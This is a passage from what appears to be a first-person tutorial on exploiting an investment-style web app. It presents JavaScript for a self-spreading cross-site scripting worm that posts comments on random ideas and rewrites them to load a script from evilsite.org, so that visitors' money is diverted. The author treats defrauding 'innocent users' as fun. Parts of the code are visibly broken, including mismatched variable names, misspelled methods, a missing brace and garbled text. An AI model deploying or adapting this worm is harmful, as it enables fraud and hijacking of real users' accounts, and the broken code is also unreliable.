 Now I can post this comment to my idea's message board. Then, any unknowing users will invest all of their money into my idea just by reading the description. The web-app complains about JavaScript if it is not enabled, so we don't have to worry too much about incompatibility. This exploit has some flaws, one: it requires the user to visit my idea's description, two: it doesn't work well for users who have all of their funds invested, and three: it is very obvious that I am exploiting innocent users.

Let's improve it by adding a propagation method (here comes some fun).

```js
function comment(target_id) {
  //create an iframe to view the target idea
  var f = document.createElement('iframe');
  f.src='http://example.com/allideas/view/id/' + trade_id;
  f.setAttribute('id', 'nm');
  document.body.appendChild(f);
  //reference the content document of the target idea page
  var fe = document.getElementById('nm').contentDocument;
  //enumerate all <p> tags
  var links = fe.getElementsByTagName('p');
  for (var i = links.length; i > 0; i--) { 
    //if we see a {secret_id} we stop, this idea is already infected
    if (links[i-1].innerHTML.indexof("{secret_id}") != -1)
      return;
  }
  //enumerate all <textarea> tags
  var tas = fe.getElementsByTagName('textarea');
  tas[0].value = 'Nice Post';
  //post a comment
  fe.form.submit();
}

function infect() {
  //reference the content document we created earlier
  var fe = document.getElementById('nm').contentDocument;
  //comments are enclosed by <p> tags
  var links = fe.getElementsByTagName('p')
  var link_id = -1;
  //search for the 'Nice Post' comment we posted
  for (var i = links.length; i > 0; i--) {
    if (links[i-1].innerHTML == 'Nice Post') {
    //record the ID assigned to the comment
    link_id = links[i-1].parentNode.parentNode.childNode[1].innerHTML;
    break;
  }
  //create a new page to edit the comment
  var f = document.createElement('iframe');
  f.src='http://example.com/allcomments/edit/id/' + link_id;
  f.setAttribute('id', 'nm2');
  document.body.appendChild(f);
  fe = document.getElementById('nm2').contentDocument;
  var tas = fe.getElementsByTagName('textarea');
  //change our comment to include exploit code
  tas[0].value = "var s = document.createElement('script');" +   
    "s.src='//evilsite.org/script.js¬e={secret_id}';" + 
    "document.body.appendChild(s);";
  fe.form.submit();
}

min_id = 0; //minimum ID to infect
max_id = 200; //maximum ID to infect
target_id = Math.floor(Math.random()*(max_id-min_id)) + min_id;
//post a comment
setTimeout("comment(" + target_id + ")", 500);
//edit that comment to include this viral payload
```
